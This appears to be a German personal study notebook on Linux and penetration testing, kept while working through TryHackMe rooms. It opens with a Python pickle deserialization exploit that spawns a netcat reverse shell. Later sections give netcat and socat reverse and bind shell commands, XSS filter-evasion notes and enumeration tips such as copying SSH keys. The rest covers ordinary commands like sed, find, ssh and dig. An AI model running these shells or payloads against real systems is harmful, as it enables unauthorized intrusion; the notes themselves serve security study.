	        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f') # Standardcode für eine Reverse-Shell
	        return os.system, (cmd,) # Callable und dessen Argumente als Tupel
	
	
	if __name__ == '__main__':
	    pickled = pickle.dumps(RCE()) # Umwandlung in Binärdaten
	    print(base64.urlsafe_b64encode(pickled))

Exploit via pickle selbst
-------------------------

* Exploit wird demonstriert auf: <https://www.bengrewell.com/2018/05/19/rotten-pickles-part-1/>
	* Eine ausführlichere Variante mit anderen Modulen: <https://checkoway.net/musings/pickle/>
* Weitere Befehle (S. 14) und ausführliche Beschreibung: [./Sour Pickles − Marco Slaviero.pdf](./Linux_files/Linux/IT-Sicherheit/pickle_(python)/Sour Pickles − Marco Slaviero.pdf)
* ``pickle`` kann als *Stack Language* interpretiert werden (leider habe ich hierzu noch keine offizielle Dokumentation gefunden)
* **Angriffsvektor**: ``b'cos\nsystem\n(S'/bin/echo blah'\ntR.``' bzw.
	1. ``cos``
	2. ``system``
	3. ``(S'/bin/echo Hello``'
	4. ``tR.``
	* Der ``b-String`` beschreibt das Auf- und Abbauen eines Stacks.


### Erklärung

1. ``cos``: Kann auf ``c`` und ``os`` aufgeteilt werden

``c`` Lies alles bis zum nächsten ``newline`` (``\n``) und interpretiere es als Modulname (uns lege es als erstes Element auf Stack)
``os`` Modulname
``import os``

2. ``system``: Funktion des Moduls, die aufgerufen werden soll (Argumente nicht spezifiziert

``os.system(…)``
``import os``

3. ``(S'/bin/echo Hello``': Beinhaltet mehrere Teile

``(`` Markierung, die in der nächsten Zeile für das ``t`` wichtig wird und dafür auch auf den Stack gelegt wird
``S`` Lies String innerhalb der '``…``' bis zum nächsten ``newline`` (``\n``)  und lege ihn wieder auf den 
'``/bin/echo Hello``'
``(``
``os.system(…)``
``import os``

4. ``tR.``

``t`` Entferne alles vom Stack bis Markierung, dh. ``(``, erreicht wurde, setzte alles zu einem Tupel zusammen und lege es wieder auf den Stack
``('/bin/echo Hello',)``
``os.system(…)``
``import os``
``R`` Entferne die oberseten zwei Stack-Elemente, führe den entsprechenden Aufruf aus und lege das Resultat wieder auf den Stack

* Unteres muss *Callable* sein
* Oberes muss *Tupel* sein

``os.system('/bin/echo Hello',)``
``import os``
``.`` Beendet die Stack-Bearbeitung und gibt das (hoffentlich) einzige Elemente auf dem Stack als Resultat des ``pickle``-Prozesses zurück.


# Linux-Befehle (alte Version)

* ``find -name DATEI1 -fprint DATEI2``

Pfad von DATEI1 wird in Datei "DATEI2" geschrieben

* ``find -iname "*".pdf``

``= find -iname \*.pdf``
``= find -iname "*.pdf"``
sucht nach Dateien, die auf "pdf" enden, Majuskeln und Minuskeln werden ignoriert

* ``find -name Alge\*.pdf``

sucht nach Dateien, die mit "Alge" beginnen und auf ".pdf" enden

* ``find PFAD -name DATEI -ls``

sucht im Verzeichnis PFAD nach DATEI und listet die Ergebnisse; kein PFAD entspricht aktuelles Verzeichnis

Sonstiges
---------

* ``var1=$(COMMAND)``

schreibt Ausgabe von COMMAND in var1:
Bsp.: ``var1=$(find -name File.pdf)``
Pfad von File.pdf wird in var1 geschrieben

ip-Adresse
----------
wget <http://wieistmeineip.net> -q -O - | grep -Eo '\<:digit:{1,3}(\.:digit:{1,3}){3}\>'
	

Globale Variablen
-----------------
zum gegenwärtigen Zeitpunkt weiß ich noch nicht, ob und wann selbst angelegte Variablen nach einem Neustart noch zur Verfügung stehen

* ``env``

zeigt alle globalen Variablen an

* ``export var=DUMMY``

legt globale Variable mit Inhalt DUMMY an; kann ggfl zur Speicherung von Pfaden verwendet werden (die ein Skript/Programm starten; schöner: bash_aliases)

* ``echo $var``

anzeigen von var

* ``unset var``

löscht globale Variable

# Linux Mint
Angelegt Dienstag 10 Mai 2022


* [Cinnamon bei UbuntuUsers](https://wiki.ubuntuusers.de/Cinnamon/)


# ls
Angelegt Dienstag 18 Oktober 2022


* Man kann dem ``ls``-Befehl ``GLOB``-Muster mitgeben, um nur Dateien eines bestimmten Schemas anzeigen zu lassen:


	

# mkfifo (named pipes)
Angelegt Montag 31 Oktober 2022


* *Named Pipes* sind *Pipes* für verschiedene Prozesse über Prozess-, bzw. Terminalgrenzen hinweg.
* Kann dazu verwendet werden Schreibprozesse in temporäre Dateien zu unterbinden, die sonst für die Inter-Prozess-Kommunikation angelegt werden müssen, um Daten auszutauschen. Einer schreibt in die *Named Pipe*, der andere liest.

| (unnamed pipes)
-----------------

* Folgender Aufruf ist klar, verknüpft zwei Programme und geschieht in Rutsch/Terminal

	man mkfifo | grep "\-Z"


Die Frage ist nun, wie man das über Terminals/Prozesse hinweg realisieren kann − Antwort: *Named Pipes*

mkfifo (named pipes)
--------------------

* Syntax: ``mkfifo DATEIPFAD`` (bspw. ``mkfifo mypipe``)

/pasted_image.png)

* Für die *Named Pipe* benötigt man zwei Prozesse/Terminals. Einmal muss gelesen und einmal geschrieben werden, sonst passiert Nichts
	1. ``grep "\-Z" mypipe``
	2. ``man mkfifo > mypipe``

⇒ Per *Named Pipes* können Programme über Prozess-/Terminalgrenzen hinweg miteinander kommunizieren


# netcat & socat
Angelegt Montag 07 November 2022


* Sehr sinnvoll bei der Verwendung von [:Linux:TryHackMe:**Reverse & Bind Shells**](#Linux:TryHackMe:Reverse & Bind Shells)


netcat
------

### Optionen
``-l`` startet einen *Listener*
``-v`` *verbose*-Ausgabe
``-n`` Auflösen von Host-Namen oder DNS (TODO keine Ahnung, was das genau bedeutet)
``-p PORT`` Angabe des Ports, Ports <1024 benötigen ``sudo``-Rechte

* Für [:Linux:TryHackMe:**Reverse & Bind Shells**](#Linux:TryHackMe:Reverse & Bind Shells) bieten sich bekannte Ports wie ``53``, ``80``, ``443`` an, um weniger Verdacht zu erregen.

``-e PROGRAMM``, führe ``PROGRAMM`` aus, sobald Verbindung hergestellt wurde
❗️Haben nicht alle Versionen von ``netcat``

* als *Listener* sinnvoll, bspw.
	* *Bind Shell*: ``nc -lvnp PORT -e /bin/bash``
	* *Reverse Shell*: ``nc <MEINE IP> PORT -e /bin/bash``


socat
-----
[Intro to Shells, Task 6 − TryHackMe](https://tryhackme.com/room/introtoshells) (dort findet sich auch etwas zu Windows)

* Für ``socat``*-Reverse & Bind Shells* s. [Reverse & Bind Shells#socat-Reverse & Bind Shell](#Linux:TryHackMe:Reverse & Bind Shells)
* teilweise ähnlich so [#netcat](#Linux:netcat & socat) aber dann wieder grundlegend verschieden
* Syntax ist schwieriger als bei [#netcat](#Linux:netcat & socat)
* kann man sich als Verbindung zw. zwei Punkten, bspw. hörender Port & Tastatur ([:Linux:**Deskriptoren#stdin**](#Linux:Deskriptoren)), hörender Port & Programm oder hörender Port & Datei, etc.
* ``-d`` (evtl. auch ``-d -d``) für ausführlichere Ausgabe


### Verschlüsselte Shells

* Verschlüsselte Shells möglich: Einfach ``tcp`` mit ``openssl`` ersetzen und [:Linux:**Zertifikat**](#Linux:Zertifikate) angeben:


#### Reverse

* Listener (bei mir):

	socat OPENSSL-LISTEN:<PORT>,cert=<ZERTIFIKAT.pem>,verify=0 - # Bindestrich nicht vergessen


* ``verify=0`` Zertifikatsverifizierung wird nicht durchgeführt


* Gegenstück (bei Ziel):

	socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash

#### Bind Shell

* Listener (bei Ziel):

	socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes


* Gegenstück (bei mir):

	socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 - # Bindestrich nicht vergessen

#### Schematischer Ablauf

* links: Angreifer
* rechts: Ziel


# Netzwerk
Angelegt Samstag 09 April 2022

WLAN-Passwort hacken
--------------------
[Youtube-Video](https://www.youtube.com/watch?v=WfYxrLaqlN8) @airmon_ng @aircrack_ng
[Ein WPA/WPA2 WLAN mit Kali Linux hacken – wikiHow](https://de.wikihow.com/Ein-WPA/WPA2-WLAN-mit-Kali-Linux-hacken) @airmon_ng @aircrack_ng
[Wi-Fi-Deauthentication-Angriff – Wikipedia](https://de.wikipedia.org/wiki/Wi-Fi-Deauthentication-Angriff)

monitor-Modus der WLAN-Schnittstelle
------------------------------------
❗️Befindet man sich im **monitor-Modus** ist man **nicht** mit dem Internet verbunden. Dazu muss der Modus **managed** aktiviert sein.
@airmon_ng @aircrack_ng
Quelle: <https://techwiser.com/check-if-wireless-adapter-supports-monitor-mode/>

A priori befindet sich die WLAN-Schnittstelle im **managed-Modus** (letzte Zeile):


Anleitung, um **monitor-Modus** zu aktivieren:

1. per ``iwconfig`` Name der WLAN-Schnittstelle heraussuchen. Hier: ``wlp0s20f3``


2. WLAN ausschalten

	sudo ip link set dev wlp0s20f3 down
	

3. **monitor-Modus** aktivieren

	sudo iwconfig wlp0s20f3 mode monitor


1. Zustand prüfen: ``iwconfig`` (letzte Zeile zeigt nun „Mode:Monitor“).


⇒ Fertig

4. Wechsel in den **managed-Modus**:

	sudo iwconfig wlp3s0 mode managed
	sudo ip link set dev wlp3s0 up
	
„``up``“ wird nur beim **managed-Modus** benötigt!


# ps (Prozesse)
Angelegt Dienstag 27 September 2022


* ``ps`` Prozesse anzeigen
* ``ps aux`` Prozesse aller Nutzer/des gesamten Systems anzeigen
* ``top`` ausführliche tabellarische Übersicht

``kill [SIGNAL] <PID>`` beendet Prozess mit Prozess-ID ``<PID>``
Man kann Signale (``SIG…`` = ``Sig``nal) verwenden, um Beenden weiter zu spezifizieren (mit ``-`` angeben, dh ``-SIGTERM``):

* ``SIGTERM`` Prozess beenden aber davor aufräumen („clean up“)
* ``SIGKILL`` Prozess ohne aufräumen („clean up“) beenden
* ``SIGSTOP`` Prozess stoppen/suspendieren


* ``STRG + Z``: Prozess in Hintergrund verschieben
	* ``fg`` Holt Prozess wieder in Vordergrund


Namensräume („Namespaces“)
--------------------------

* Sind dazu da, Resourcen aufzuteilen und Prozesse abzuschirmen
* Nur Prozesse im selben Namensraum sehen sich gegenseitig


``systemd`` und ``systemctl``
-----------------------------

* Alle Prozesse sind Kindprozesse von ``systemd`` (ist auch ein Prozess; sogar ein ``d``eamon)
* Per ``systemctl`` (``system c``on``t``ro``l``) kann man mit ``systemd`` interagieren
	* Syntax: ``systemctl [option] [service]``
		* ``option`` = {
			* ``start`` Started Prozess/Service
			* ``stop`` Stoppt Prozess/Service
			* ``enable`` Sorgt dafür, dass Prozess/Service beim nächsten Hochfahren des Rechners automatisch gestartet wird. Prozess/Service wird **nicht** gestartet, muss entweder manuell durch ``start``, Neustart oder per ``--now`` am Ende, dh nach ``[service]`` geschehen
			* ``disable`` Beendet das automatische Starten beim Hochfahren. Prozess/Service wird **nicht** beendet, muss per ``stop``, Herunterfahren oder ``--now`` am Ende geschehen 
	* Bsp: ``systemctl start apache2`` um einen Apache-Webserver zu starten


# sed
Angelegt Donnerstag 27 Oktober 2022

Mit *sed* können Text-Datenströme, bspw. Ausgaben (per ``|``) von Programmen oder Dateien, bearbeitet werden, insbesondere wird *sed* für „Suchen und Ersetzen“ (mit [:Programmieren:**regex**](#Programmieren:regex)) verwendet.

* An sich ist *sed* eine SKript-Programmiersprache, dh. es gibt (sowas wie) Schleifen, Verzweigungen und „Speicher für Variablen“ (*Hold Space*)
* verwendet „(POSIX-) Basic Regular Expressions (BRE)“, die GNU-Implementierung GNU-BREs
* [sed-Tutorium (bei UbuntuUsers gefunden)](https://tty1.net/sed-tutorium/sed-tutorium.html)
* [sed − Wikipedia](https://de.wikipedia.org/wiki/Sed_(Unix))


Funktionsweise
--------------

* Daten werden zeilenweise eingelesen und im *Pattern Space* gespeichert, dh. es findet sich immer nur **eine** Zeile im *Pattern Space*.
* Im *Pattern Space* wird nacheinander die Anweisungskette ausgeführt und am Ende ausgegeben/in Datei geschrieben
* Man kann per ``sed '/BEGINN/,/ENDE/ …``' einen Suchbereich definieren
	* ``,/ENDE/`` kann weggelassen werden
* Beim Ersetzen-Kommando ``s/<REGEX>/<ERSATZTEXT>/`` kann man (Teile der) Treffer in ``<REGEX>`` in ``<ERSATZTEXT>`` wiederverwenden, indem man die jeweilige Zeichkette in ``\(…\)`` einschließt. Das klappt 9 mal und auf die Treffer kann man per ``\1``, …, ``\9`` zugreifen. Beispiel:

	echo "I like cat and dog" | sed 's/\(cat\|dog\)/\1s/g'
	# I like cats and dogs


Basic Regular Expressions
-------------------------
@regex @regularexpression

* *sed* benutzt Basic Regular Expressions, dh
	* ``|``, ``+``, ``?`` sind **Zeichen**, **keine** Operatoren; *GNUsed* **kennt** diese Operatoren, wenn man vor sie ein ``\`` stellt **oder** man verwendet ``-r``
	* Dasselbe gilt für ``{``, ``}``, ``(``, ``)``, heißt, sie müssen mit ``\`` geschrieben werden, um bspw. als Multiplikator zu dienen
	* ``^``, ``$``, ``*`` sind **Zeichen**, wenn sie **nicht am Beginn**/**Ende**/**Beginn** einer Zeile oder Klammerausdrucks, bspw ``[^a-c]`` stehen
* *Erweiterte Reguläre Ausdrücke* sind die „Normalen“ und können per ``-r`` verwendet werden (davon ist aber abzuraten)


Syntax
------

1. ``sed '[BEREICH] { ANWEISUNG_1 … ANWEISUNG_n }' EINGABEDATEI > AUSGABEDATEI``
2. ``STREAM | sed 'ANWEISUNG_1 … ANWEISUNG_n``'


* Eine ``ANWEISUNG`` besteht meist aus einem Ersetzen-Kommando:

``s/<REGEX>/<ERSATZTEXT>/[gc…]``
Man kann statt ``/`` jedes beliebige Sonderzeichen verwenden, solange es in ``<REGEX>`` und ``<ERSATZTEXT>`` nicht vorkommt, bspw. ``&``, dh. ``:s/<REGEX>/<ERSATZTEXT>/g == :s&<REGEX>&<ERSATZTEXT>&g`` sind gleichbedeutend. Das ist vorallem dann sinnvoll, wenn in einem der beiden ``/`` vorkommt, bspw. bei Dateipfaden, da man diese sonst per ``\`` escapen müsste, was schnell zu einem unleserlichem ``<REGEX>`` führt.

Beispiele
---------

* Viele Beispiele unter [sed − Wikipedia](https://de.wikipedia.org/wiki/Sed_(Unix))
* ``sed -ne '/<RE>/p``' Gibt alle Zeichenketten, die ``<RE>`` beschreibt aus
* ``sed '/^[yz]/ { s/^\([yz]\)/(\1)/ s/alt/NEU/ }' EINGABEDATEI``

x alt		x alt
Beginn	Beginn
y alt		(y) NEU
Ende	Ende
z alt		(z) NEU

Operationen
-----------
Der eigentliche Bearbeitungsschritt steht am **Ende**, bspw. bei ``s/alt/NEU/g``. Es soll „gierig“ (``g``reedy) ersetzt werden.
Es gibt:

* ``g``
* ``p`` gibt *Pattern Space* aus (``p``rint)
	* Kann dazu führen, dass bearbeitete Zeilen doppel ausgegeben werden. Das kann mit ``-n`` verhindert werden. ``-n`` unterbindet das finale Ausgeben des *Pattern Spaces* (s. „Funktionsweise“).
* ``d`` löschen (``d``elete)


# Skripte
Angelegt Donnerstag 09 Juni 2022

Selbstgeschriebene Skripte liegen in: [~/programmieren/skripte](file:///home/philipp/programmieren/skripte)

Debug
-----
Folgender Code hilft beim Debuggen ([Check if file exists bash – Stackoverflow](https://stackoverflow.com/questions/22720064/check-if-file-exists-bash)):
	export PS4="\$LINENO: "
	set -xv


* [execute a command before shutdown – unix.Stackexchange](https://unix.stackexchange.com/questions/48973/execute-a-command-before-shutdown) (Skript abhängig vom [Runlevel – Wikipedia](http://en.wikipedia.org/wiki/Runlevel) (``0`` = Shutdown, ``6`` = Reboot) ausführen). Dazu Symlink in ``/etc/rc[0-6].d/`` auf Skript, das in ``/etc/init.d/`` liegt, platzieren (dort liegen nur Symlinks). Das Skript **darf keine **``.sh``-Endung enthalten!

Weitere Erläuterung zu den ``Runlevel``s: [the rc0 d rc1 d directories in etc – unix.Stackexchange](https://unix.stackexchange.com/questions/83748/the-rc0-d-rc1-d-directories-in-etc):

* Bennennung: ``(K|S)[0-9]{2}\w*`` (Beginn mit ``K`` oder ``S``, dann eine Zahl, dann Name, **keine** Dateiendung wie ``.sh``)
	* ``K  ``Kill, dh. es wird beendet
	* ``S  ``Start, dh. es wird gestartet
	* Zahl: Gibt Reihenfolge an
	* In ``/etc/rc6.d/`` sollte nichts mit ``S``, bzw. nur ``K``-Skript stehen, da beim herunterfahren alles beendet und Nichts mehr gestartet werden soll


if-else, Conditions
-------------------
	if [ BEDINGUNG ]; then  # Die Leerzeichen sind wichtig!
		...
	else
		...
	fi


* Test, ob Datei oder Verzeichnis existiert:

	if [ -f DATEI ]; then
		...
	
	if [ -d VERZEICHNIS ]; then
		...
	


# ssh
Angelegt Freitag 04 Februar 2022
[UbuntuUsers/SSH](https://wiki.ubuntuusers.de/SSH/)

ssh-Schlüsselpaar erstellen
---------------------------
``ssh-keygen -t rsa -b 2048 -C "<comment>"``

* ``-b ``Länge in Bits
* ``rsa`` Algorithmus (?)
* ``-C ``Kommentar


ssh-Schlüssel auf Server kopieren
---------------------------------
``ssh-copy-id -i ~/.ssh/<SCHLÜSSEL> <BENUTZER@SERVER-ADRESSE>``

.ssh/config bzw. Server speichern
---------------------------------
[UbuntuUsers/ssh-config](https://wiki.ubuntuusers.de/SSH/#ssh-config)
In [~/.ssh/config](file:///home/philipp/.ssh/config) kann man Server abspeichern, sodass man nicht mehr
``ssh BENUTZER@SERVER-ADRESSE``
eingeben muss, sondern nur noch
``ssh SERVER-NAME``,
bspw.
``ssh uni``.

* ``IdentityFile ``spezifiziert zu verwendende(n) Schlüssel
* ``IdentitiesOnly ``Es wird/werden **nur** der/die angegebene/n Schlüssel verwendent (dadurch ist es sicherer, weil der ssh-client sonst alle Schlüssel durchprobiert)

ssh-Server
----------

* Wenn man sich „openssh-server“ installiert, kann man per ssh auf den jeweiligen Rechner zugreifen. Dazu muss einfach

	ssh <Nutzer>@<IP-Adresse>

in das Terminal eines anderen Rechners eingegeben werden.

* Links:

<https://wiki.ubuntuusers.de/SSH/#Der-SSH-Server>
<https://www.youtube.com/watch?v=JZ7h5FxlTVg>


# TryHackMe
Angelegt Sonntag 16 Oktober 2022

Name: tryhackme
Passwort: tryhackme


* Möchte man ein Ziel angreifen, sollte man erst „die Landschaft erkunden“, um zu wissen, welche IP-Adresse für was zuständig ist ⇒ [nmap (Port Scanning) − MeinWiki > Linux > TryHackMe](#Linux:TryHackMe:nmap). Einer fungiert als Webserver, der andere als Windows Active Directory Domain Controller.
	* In einem @ctf-Szenario können Standardports geändert sein.
	* Nur offene Ports können angegriffen werden, dazu muss man diese kennen
* Bei Passwortabfragen ruhig einfach mal ``ENTER`` drücken, bzw. kein Passwort eingeben
* Standard-Anmeldedaten eines Dienstes im Internet suchen, bspw ``Pensive Notes default credential`` wie bei [OWASP Top 10: [Severity 6] Security Misconfiguration − TryHackMe](https://tryhackme.com/room/owasptop10)
* ``ssh``-Ordner sind immer interessant, da sie Schlüssel enthalten. Gerne **alle** Schlüssel, also sowohl Öffentliche wie auch Private kopieren
* Während der @enumeration alles aufschreiben, was man an Infos bekommt: Nutzernamen, Passwörter, Schlüssel, alle offene Ports jeglicher Dienste, Betriebssystem(informationen), Version der genutzten Software, Passwort-Hashes, ...
* ``strings DATEI`` einfach mal benutzen, wenn man nicht weiter weiß, um herauszufinden, ob sich druckbare Zeichen in ``DATEI`` verstecken
* ``nc`` ([:LInux:**netcat & socat**](#Linux:netcat & socat)) kann für alles, was mit TCP und UDP zu tun hat, verwendet werden, bspw. TCP-Verbindungen öffnen, UDP-Packete senden, an TCP- & UDP-Ports hören, etc.
* Ruhig alle Verzeichnisse anschauen, auf die man Zugreifen kann − vllt. findet man etwas Interessantes, bspw. eine Datenbank, die man dann herunterladen und auf eigenem Rechner abfragen kann.
* Wenn Eingaben nicht bereinigt werden, bspw. geht ``<script>alert("Hello World")</script>`` oder Sonderzeichen wie ``<``, ``>`` gehen durch, könnte [:Linux:TryHackMe:**XSS − Cross Site Scripting**](#Linux:TryHackMe:XSS − Cross Site Scripting) möglich sein


Enumeration bei @CommandInjection
---------------------------------

* ``uname -a`` kann für @enumeration benutzt werden, wenn man Befehle abgeben kann (zeigt alle Systeminformationen an, also Betriebssystem, Zeit, ...)
	* ``cat /etc/os-release`` genaue Informationen zum Betriebssystem
* ``cat /etc/passwd`` gut, um herauszufinden, wie viele Nutzer es gibt. UID ≥ 1000 deutet auf „menschlichen“ Nutzer hin


Werkzeuge
---------

19. [:Linux:TryHackMe:**Werkzeuge**](#Linux:TryHackMe:Werkzeuge) 


Fachbegriffe (die ich nicht intuitiv zu ordnen kann)
----------------------------------------------------

* @enumeration Sammeln von Informationen über ein Ziel, um Angriffsszenario bestimmen zu können, bspw. Nutzernamen, Passwörter, Netzwerkinformationen, Hostnamen, Anwendungsinformationen, Dienste, etc. Erster Schritt häufig Port Scanning.


Weiterführende Links
--------------------

* [What is enumeration − Infosec Institute](https://resources.infosecinstitute.com/what-is-enumeration/)
* [Erste Schritte in CTFs für Binaries − gegrit.medium.com](https://gregit.medium.com/exploiting-simple-network-services-in-ctfs-ec8735be5eef)
* [OWASP Cheat Sheet Series − owasp.org](https://cheatsheetseries.owasp.org/index.html) (Ich glaube, hier gibt's alles)
	* [OWASP Cheat Sheet Series: XSS Filter Evasion − owasp.org](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
* [HTML 5 Security Cheat Sheet − https://html5sec.org/](https://html5sec.org/)
* <http://www.xss-payloads.com/> (s. auch **[XSS − Cross Site Scripting](#Linux:TryHackMe:XSS − Cross Site Scripting)** für weitere Links)


### Reverse Shell Cheat Sheet

* <https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>


# Allgemeines
Angelegt Freitag 21 Oktober 2022


Weitere Quellen
---------------

* Blog eines Sicherheitsexperten über CTFs und nützliche Werkzeuge: <https://0xrick.github.io/lists/stego/>
	* Viele Sicherheitsexperten führen einen Blog und sind deswegen eine gute Quelle an Informationen
* Unter [ExploitDB – ecploit-db.com](https://www.exploit-db.com/) findet man Exploits für Programme. Kann hilfreich sein, wenn eine bestimmte Software in einem CTF auftaucht.
	* Kann man unter Kali Linux per ``searchsploit`` offline durchsuchen
* [NVD – nvd.nist.guv](https://nvd.nist.gov/vuln/search): Datenbank zu Sicherheitslücken bzw. CVEs (Common Vulnerabilities and Exposures; Nummerierungsschema: CVE-JAHR-NUMMER)
* <https://www.opencve.io/> ist auch eine Datenbank mit bekannten Sicherheitslücken


IP-Adresse
----------

* ist als logische/abstrakte Adresse zu verstehen
* Um eine IP-Adresse zu erhalten wird ein DHCP-Server eingesetzt, der IP-Adresse an neue Geräte im Netzwerk vergibt


### Subnetting

* Netzwerk-Adresse: Identifiziert ein Netzwerk, bspw. ``192.168.1.0``
* **Host-Adresse**: ``192.168.1.100`` (bspw.); Über diese wird ein Gerät im Netzwerk identifiziert

Konvention: Gateway-Geräte haben die Host-Adresse ``192.168.1.1`` oder ``192.168.1.254`` (die erste oder letzte im Netzwerk

* **Gateway-Adresse** (**Default Gateway**): Das Gerät hinter der Gateway-Adresse ist dafür zuständig Daten in ein anderes (Sub)Netz zu schicken, wenn sich der Empfänger nicht in ``192.168.1.0`` befindet.


Diverses
--------

* ``nc`` kann für alles, was mit TCP und UDP zu tun hat, verwendet werden, bspw. TCP-Verbindungen öffnen, UDP-Packete senden, an TCP- & UDP-Ports hören, etc.
* JavaScript in HTML-Code kann „remote“ per ``src='…``'-Attribut eingebunden werden.

TODO Heißt das, man könnte hier URLs angeben?
Meiner ersten Recherche nach: Ja.

* nGinx, Apache speichern alle Daten/Resourcen unter ``/var/www/html``, dh. fordert man ``http://www.example.com/picture.jpg`` an, erhält man ``/var/www/html/picture.jpg``
	* Man kann das aber auch ändern, bspw. indem man ``one.com`` mit ``/var/www/website-1`` verknüpft


### Netzwerke

* ``ip-scanner.thm`` (?) prüft den Ruf einer IP-Adresse
	* ähnlich: ``AbuseIPDB``, ``Cisco Talos Intelligence`` (Datenbanken mit Informationen zu IP-Adressen)
* MAC-Adresse: ``a4:c3:f0:85:ac:2d``, die ersten 6 Tupel beschreiben den Hersteller, die letzten 6 eine vom Hersteller vergebene, interne Nummer
	* Können gefälscht werden: „Spoofing“ und Sicherheitsrisiko darstellen: Wenn Sicherheitskonfiguration sich nur MAC-Adresse verlässt, kann man so vorgeben jemand anderes zu sein, bspw. indem man die MAC-Adresse des Admin herausfindet und dann selbst verwendet
* Per ARP(-Protokoll) findet ein Gerät heraus, welche MAC-Adresse sich hinter einer IP-Adresse verbirgt. Dadurch werden MAC- und IP-Adresse verknüpft.


# dig
Angelegt Sonntag 09 Oktober 2022


* Mit ``dig`` kann man bei einem „recursive DNS Server“ der eigenen Wahl Informationen zu einer URL erfragen

	dig <domain> @<dns-server-ip>
		# dig google.com @1.1.1.1

Auszug aus der Antwort:


* IP-Adresse von ``google.com``: ``142.250.185.78``
* TTL [s] (Time to live): 103 (nach 103s wird die IP-Adresse erneut nachgefragt)


* Wenn man IP-Adresse nicht schon hat, fragt man einen DNS-Server nach dieser, anfangs einen „recursive DNS Server“, den bspw. der Internetanbieter unterhält. Dh. man schickt an ihn die URL und bittet um die zugehörige IP-Adresse. Hat auch dieser diese nicht, fragt wiederum der „recursive DNS Server“ den „root name server“, die wiederum die Anfrage zu den „Top-Level Domain Servern“ weiterleiten. Die „Top-Level Domain Server“ sind ein Verzeichnis für die ``.com``- oder ``.co.uk``-Domänen. Auch die „Top-Level Domain Server“ leiten die Anfrage weiter und zwar zu den „Authoritative name servern“, die sich dann um den Rest kümmern bzw. haben die IP-Adresse zur URL.
* ``dig`` zeigt einem dieses Vorgehen an


# ftpFTP
Angelegt Freitag 21 Oktober 2022


* ``F``ile ``T``ransfer ``P``rotocol (Client-Server-Protokoll); Wird zum übertragen von Dateien über ein Netzwerk verwendet
* Zwei Kanäle (unverschlüsselt), damit man unabhängig von Datei-Transfer (wenn Datei groß ist oder Verbindung langsam) Befehle absetzen kann:
	* command/control-Kanal
	* data-Kanal
* Nach hergestellter Verbindung kann man ``FTP``-Befehle auf dem Server ausführen
	* Aktive Verb.: Client öffnet Port und wartet bis Server Verb. herstellt
	* Passive Verb.: Server öffnet Port udn wartet bis Client Verb. herstellt

ftp-Server
----------

* Per

	ftp

kann man sich mit einem FTP-Server verbinden. Es öffnet sich eine ``ftp>``-Konsole

* ``get``, ``mget DATEI`` lädt ``DATEI`` herunter

	get DATEI -
	
Zeigt den Inhalt an (wie ``cat``)

Enumeration FTP
---------------
@enumeration

# HTML
Angelegt Freitag 28 Oktober 2022

Man kann prinzipiell alles „HTML-kodiert“, dh. als [HTML-Entität − Wikipedia](https://de.wikipedia.org/wiki/HTML-Entit%C3%A4t), darstellen. Manche Zeichen haben auch einen eigenen HTML-Namen, bspw ``&amp;`` für ``&``. Im Allgemeinen gilt folgende Syntax (``;`` nicht vergessen!):

* ``&#nnn;`` Dezimalkodierung (ohne führende Nullen)
* ``&#xhhhh;`` Hexadezimalkodierung


* [To HTML Entity − CyberChef](https://gchq.github.io/CyberChef/#recipe=To_HTML_Entity(true,'Named%20entities')) hilft vllt bei der Kodierung

@itsicherheit

* Eventuell können Filter dadurch überlistet werden, indem führende Nullen in ausreichender Stückzahl angegeben werden
* Eventuell können Filter, bspw. ``alert(…)``-Filter, umgangen werden, indem ``alert("Hello")`` als  [HTML-Entität − Wikipedia](https://de.wikipedia.org/wiki/HTML-Entit%C3%A4t) kodiert wird, vgl.

	

oder [IMG onerror and JavaScript Alert Encode − OWASP Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#img-onerror-and-javascript-alert-encode)
	

# JavaScript
Angelegt Freitag 28 Oktober 2022


* ``window.location.hostname`` IP-Adresse des Rechners
* ``document.cookie`` Man bekommt alle Cookies als ``key=value``-String getrennt durch ``;``
* ``document.querySelector('<ID>').textContent = <NEUER TEXT>``


# Netzwerk-Dienste
Angelegt Donnerstag 20 Oktober 2022


* [Network Services − TryHackMe](https://tryhackme.com/room/networkservices)
* [Network Services 2 − TryHackMe](https://tryhackme.com/room/networkservices2)
* Hier geht's darum Schwachstellen und falsche Konfigurationen von bekannten Netzwerkdiensten auszunutzen


SMB − Server Message Block Protocol
-----------------------------------

* Client-Server-Protokoll, um Zugang zu Dateien/Dateisystemen, Druckern und anderen Resourcen in Netzwerk zu regeln
* Clients verbinden sich mit „NetBIOS over TCP/IP“
* Clients senden Befehele („SMBs“)
* SMB-Laufwerke, **shares**, können oft Startpunkt für @enumeration/das Sammeln von Informationen sein
	* Diese kann man unter Linux (irgendwie) einhängen
* [enum4linux − github](https://github.com/portcullislabs/enum4linux) kann für @enumeration von SMB-Laufwerke verwendet werden
	* Syntax: ``enum4linux [options] <IP>``


* Mit [enum4linux − github](https://github.com/portcullislabs/enum4linux) kann bspw. herausgefunden werden, welche Laufwerke/Shares für einen SMB-Zugriff interessant sein könnten, bspw. solche, die nicht zur Standardkonfiguration gehören

Beispielhaftes Resultat (``enum4linux -a <IP>``):

⇒ ``profiles`` ist bspw. kein Standard-Share

### smbclient

* Mit dem ``smbclient`` kann man auf SMB-Laufwerke/Shares zugreifen.
	* Syntax: ``smbclient //<IP>/<SHARE>``


* Falls man nach dem Anmelden Zugriff auf ein paar Befehle hat:

``mget DATEI``, mit ``yes`` (tippen!) bestätigen; um ``DATEI`` herunterzuladen

telnet
------

* Mit ``telnet`` kann man Befehle auf einem anderen ``telnet``-Server ausführen
* Schickt alles im Klartext; hat keine Sicherheitsmechanismen (deswegen ersetzt durch [:Linux:**ssh**](#Linux:ssh))
* Syntax: ``telnet <IP> <PORT>``


NFS − Network File System
-------------------------

* Teil von [Network Services 2 − TryHackMe](https://tryhackme.com/room/networkservices2)
* Per ``NFS`` kann man ein entferntes Dateisystem lokal bei sich einbinden
